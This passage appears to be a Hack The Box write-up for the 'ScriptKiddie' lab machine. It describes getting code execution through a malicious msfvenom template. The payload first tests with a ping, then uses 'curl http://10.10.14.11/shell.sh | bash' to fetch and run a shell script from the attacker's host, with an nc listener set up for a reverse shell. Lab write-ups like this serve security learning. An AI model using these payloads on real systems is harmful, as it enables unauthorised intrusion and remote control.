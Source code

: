 ```bash
------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results   
```
Now, leveraging the msfvenom form, we can try to build an evil template file and execute code against the server.
![](Attachments/Pasted%20image%2020220606144722.png)

## Foothold
At first we can try to execute a simple ping command to see if code execution happens, if so we can then build a more complex paiload to gain a shell on this box.  
let's set the payload varuable to the following value:  
```python
# Change me
# payload = 'echo "Code execution as $(id)" > /tmp/win'    
payload = 'ping -c1 10.10.14.11'
```
now we can set a `tcpdump` listener on `tun0` interface and see if we get an icmp echo request.  
```bash
[root@kali ScriptKiddie ]$ tcpdump -nettti tun0 icmp                                                                  
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode                                             
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes                                               
 00:00:00.000000 ip: 10.10.10.226 > 10.10.14.11: ICMP echo request, id 2, seq 1, length 64                            
 00:00:00.000031 ip: 10.10.14.11 > 10.10.10.226: ICMP echo reply, id 2, seq 1, length 64                  
```
Since we successfully obtained code execution, now we can create a payload to gain shell access to this target.  
Since the python exploit doesn't like some characters contained in the common bash reverse tcp shell, we can host the shell using python and then curl the shell file and pipe it over to bash:  
``` python
# Change me
# payload = 'echo "Code execution as $(id)" > /tmp/win'
# payload = 'ping -c1 10.10.14.11'
payload = "curl http://10.10.14.11/shell.sh | bash "
```
Once we upload our template file we can se a hit on the webserver for `/shell.sh` and then, after few seconds, on our listener we can see popping a shell as user kid:  
```bash
root@kali:~/Documents/HTB/Boxes/ScriptKiddie/exploits# nc -lvnp 9001                                                  
listening on [any] 9001 ...                                
```